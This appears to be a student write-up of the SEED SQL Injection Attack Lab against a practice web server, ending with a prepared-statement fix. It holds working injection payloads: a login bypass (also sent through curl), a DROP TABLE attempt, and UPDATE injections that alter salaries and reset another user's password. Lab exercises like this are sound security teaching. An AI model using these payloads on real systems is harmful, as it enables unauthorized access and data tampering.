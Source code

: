 # SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

```
mysql> select * from credential where name = "Alice";
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
```

## Task 2: SQL Injection Attack on SELECT Statement

### SQL Injection Attack from webpage

Username: `admin';-- `
Password: (empty)

This ends the query early and comments out the password check.

### SQL Injection Attack from command line

```
$ curl 'www.seed-server.com/unsafe_home.php?username=admin%27;--%20&Password='
...returns HTML including table of all user details...
```

### Append a new SQL statement

Username: `admin'; DROP TABLE credential;-- `
Password: (empty)

This does not work, because PHP's `mysqli::query()` API does not allow multiple queries.

## Task 3: SQL Injection Attack on UPDATE Statement

### Modify your own salary

NickName: `', salary='99999`
(other fields blank, optionally re-enter password)

This escapes the `nickname` value, adds the `salary` field, then re-enters the rest of the SQL statement including the closing quote of the `nickname` value.

### Modify other people's salary

NickName: `', salary=1 WHERE Name='Boby';-- `
(other fields blank)

This time, we escape the `nickname` value and do not re-enter the rest of the original SQL statement, commenting it out instead.

### Modify other people's password

NickName: `', Password=SHA1('gottem') WHERE Name='Boby';-- `
(other fields blank)

Here, we use the `SHA1()` function in MySQL to compute the password hash ourselves.

## Task 4: Countermeasure — Prepared Statement

Modified section of `unsafe.php`:

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name = ? and Password = ? ");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
```

By using a prepared statement, the separation between code and data is enforced at the boundary where the programmer intended, preventing SQL injection attacks. Indeed, the first query from Task 2 worked on the old version of `unsafe.php` but not on the new version using a prepared statement.